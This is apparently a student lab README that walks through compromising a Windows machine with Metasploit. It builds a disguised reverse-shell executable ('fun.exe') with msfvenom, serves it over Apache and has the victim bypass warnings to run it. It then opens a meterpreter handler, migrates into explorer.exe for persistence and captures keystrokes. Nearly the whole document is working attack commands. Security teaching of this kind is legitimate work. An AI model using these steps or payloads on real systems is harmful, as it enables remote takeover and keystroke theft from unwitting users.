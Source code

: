 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:

![Alt text](img/ifconfig.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.228.13 -f exe > fun.exe
## OUTPUT:
![Alt text](img/msvenom.png)
![Alt text](img/venom2.png)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Alt text](img/sudocpy.png)
Start apache server
sudo systemctl apache2 start

![Alt text](img/apache2.png)

Invoke msfconsole:
## OUTPUT:
![Alt text](img/msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Alt text](img/help.png)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![Alt text](img/keyscan.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![Alt text](<img/apache server.png>) 
Bypass any warning boxes, double-click the file, and allow it to run.
![Alt text](img/fun.png)
On kali give the command exploit

![Alt text](img/keyscan.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Alt text](img/meterpreter.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Alt text](img/netstat.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Alt text](img/notepad.png)
keyscan_dump	Shows the keystrokes captured so far
![Alt text](img/keyscan.png)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
